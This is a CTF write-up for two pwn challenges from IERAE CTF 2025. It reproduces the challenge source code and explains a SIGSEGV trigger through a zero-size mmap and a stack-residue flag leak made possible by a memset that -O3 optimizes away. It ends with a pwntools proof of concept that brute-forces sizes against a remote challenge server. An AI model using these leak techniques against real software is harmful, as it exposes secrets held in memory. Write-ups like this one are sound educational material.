 # IEREA CTF 2025


## Challenges: Length Calculator & Stdio_studio
**Total Points:** 288 \
**Category:** Pwn

---

## TL;DR

[These challenges are about the importance of handling edge cases and various input signals.]

---

## Length Calculator:
- **chal** : ELF binary.
- **chal.c** : source file

```
// gcc chal.c -o chal

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>
#include <sys/mman.h>

void win(int sig) {
  puts("Well done!");
  system("cat ./flag*");
  exit(0);
}

int main() {
  // If you cause SEGV, then you will get flag
  signal(SIGSEGV, win);
  setbuf(stdout, NULL);

  while (1) {
    unsigned int size = 100;
    
    printf("Enter size: ");
    scanf("%u%*c", &size);
    
    char *buf = mmap(NULL, size, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
    if (!buf) {
      puts("Too large!");
      exit(1);
    }
    
    printf("Input: ");
    fgets(buf, size, stdin);
    buf[strcspn(buf, "\n")] = '\0';
    
    printf("Your string length: %d\n", strlen(buf));
  }
}
```


From the source code, we can that a `win()` function is given, and in order to call it, a SIGSEGV signal must be triggered: `signal(SIGSEGV, win);`

So, by simply giving `0` as size, the instruction `buf[strcspn(buf, "\n")] = '\0'; ` causes a SIGSEGV because `buf` has size 0, it tries to write `\0` into `buf[strcspn(buf, "\n")]`. 


IMAGE


## Stdio_studio:
- **chal** : ELF binary.
- **chal.c** : source file

Here's `chal.c`:

```
// gcc chal.c -o chal -O3

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void load_flag() {
  char flag[128] = "";

  FILE *fp = fopen("flag.txt", "rb");
  if (!fp) {
    puts("Something went wrong. Call admin.");
    exit(1);
  }

  fread(flag, sizeof(char), 128, fp);
  fclose(fp);

  // puts(flag); // Sorry! No flag for you!
  memset(flag, 0, 128); // The secret should be cleared up
}

void echo(void) {
  unsigned int size;
  char *buf;

  printf("Size: ");
  scanf("%u%*c", &size);

  buf = alloca(size);
  if (!buf) {
    puts("Too large!");
    exit(1);
  }

  printf("Input: ");
  fgets(buf, size, stdin);

  sleep(1);

  printf("Output: %s\n", buf);
}

int main() {
  setbuf(stdout, NULL);

  puts("1. Load flag");
  puts("2. Echo");

  while (1) {
    int cmd;

    printf("Enter command: ");

    scanf("%d%*c", &cmd);

    if (cmd == 1) load_flag();
    else if (cmd == 2) echo();
    else {
      puts("Invalid command :(");
      return 0;
    }
  }
}
```
First off, notice that the binary is compiled with the command `gcc chal.c -o chal -O3`, and keep it for later.

We've got 3 functions, `main()` and `echo()` and `load_flag()`.\
The main function queries us to either tap 1 to load the flag into memory, or 2 to read the stack.

### Analysis:
Let's start with `echo()`:
```
  printf("Size: ");
  scanf("%u%*c", &size);

  buf = alloca(size);
  if (!buf) {
    puts("Too large!");
    exit(1);
  }

  printf("Input: ");
  fgets(buf, size, stdin);

  sleep(1);

  printf("Output: %s\n", buf);
  ```

Basically, this function asks for a size from the user, and then uses it to allocate stack memory with `alloca()`, and reads from stdin and displays the content of the buffer(...and beyond). \
**Note**: Alloca(size) is equivalent to a simple `sub rsp, sz`; so it's not like a heap allocation.

Let's move on to `load_flag()`:
```
  char flag[128] = "";

  FILE *fp = fopen("flag.txt", "rb");
  if (!fp) {
    puts("Something went wrong. Call admin.");
    exit(1);
  }

  fread(flag, sizeof(char), 128, fp);
  fclose(fp);

  // puts(flag); // Sorry! No flag for you!
  memset(flag, 0, 128); // The secret should be cleared up
```

This function reads the flag from *flag.txt*, stores it in a buffer, and then seemingly clearing it up at the end.

But wait, remember that the binary is compiled with the `-O3` option.\
The -O3 option in GCC enables the highest level of standard optimization. It includes all optimizations from -O2 plus additional optimizations. So in a nutshell, the line `memset(flag, 0, 128);` is opitimized out, hence, the flag still lives in memory.


### Exploitation strategy:
- Since calling `echo()`after `load_function()`, makes its stack frame live in - roughly - the same exact addresses as the latter, we can print the flag by iterating through 1 to 111 (for example) and try to make our input contiguous to the flag bytes, so that printf catches it and prints along with the data supplied.


**PoC:**

```

from pwn import *


for i in range(20, 111):
    #p = process('./chal')
    p = remote('35.187.219.36', 33335)
    p.recv()
    p.sendline(b'1')
    p.recv()
    p.sendline(b'2')
    p.recv()
    p.sendline(str(i).encode())
    p.recv()
    p.shutdown('send')
    res = p.recvuntil(b"Enter command: ")
    if b'IERAE{' in res:
        print(res)

    p.close()

```


IMAGE
